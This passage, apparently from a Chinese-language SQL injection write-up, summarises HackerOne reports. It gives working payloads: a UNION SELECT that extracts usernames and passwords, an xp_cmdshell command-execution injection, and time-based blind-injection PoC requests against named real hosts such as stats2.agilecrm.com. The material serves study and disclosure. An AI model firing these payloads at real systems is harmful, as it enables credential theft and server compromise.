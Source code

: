    - **信息泄露**：通过错误回显获取表结构，构建精准注入 Payload。

   - **联合查询注入**：利用已知表名提取敏感数据：

     ```
     crs_id=1 UNION SELECT username, password FROM users--
     ```

   - **系统命令执行**（需高权限配置）：

     ```
     crs_id=1; EXEC xp_cmdshell 'whoami'--
     ```

### 18. Mysql | GET | 时间盲注

[Rocket.Chat | Report #433792 - Blind SQL injection in third-party software, that allows to reveal user statistic from rocket.chat and possibly hack into the rocketchat.agilecrm.com | HackerOne](https://hackerone.com/reports/433792)

#### 漏洞描述:

在访问 Rocket.Chat 静态主页 `https://rocket.chat/` 时，页面加载了第三方统计服务：

```
https://stats2.agilecrm.com/addstats?...
```

通过对该 URL 的参数 fuzzing 测试，发现其中 `new` 参数存在 **盲注（Blind SQL Injection）漏洞**。攻击者可利用该漏洞注入 SQL 语句，实现数据延时判断、数据库结构探测，进一步导致敏感信息泄露甚至系统控制风险。

#### 漏洞验证请求（PoC）:

```
http复制编辑GET /addstats?callback=json949659033379064&guid=f0d3738c-44c0-60a6-44b6-56e14ca30872&sid=2172c2ca-15b6-49c8-052d-b7d817cd280b&url=https%3A%2F%2Frocket.chat%2F&agile=8pat9ou8gh0thqd8dlgctje3go&new=(select*from(select(sleep(5)))a)&ref=&domain=dorgam HTTP/1.1
Host: stats2.agilecrm.com
Connection: close
```

> 若后端存在注入漏洞，执行 `SLEEP(5)` 后响应将延迟约 5 秒，实际测试结果为 **页面加载延时 5 秒**，确认存在基于时间的盲注（Time-Based Blind SQL Injection）。

### 19. POST | 时间盲注

[U.S. Dept Of Defense | Report #348047 - Code reversion allowing SQLI again in ███████ | HackerOne](https://hackerone.com/reports/348047)

#### 复现步骤:

对以下接口提交 POST 请求，通过对 `userid` 参数注入 payload，可以观察到明显的响应延迟：

#### Payload 有效示例（Sleep 3 秒）：

```
makefile复制编辑POST /elist/email_aba.php HTTP/1.1
Host: ████████
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=xxxx
...

Body:
lname=S&userid=admin'+(select*from(select(sleep(3)))a)+'&pw=admin
```
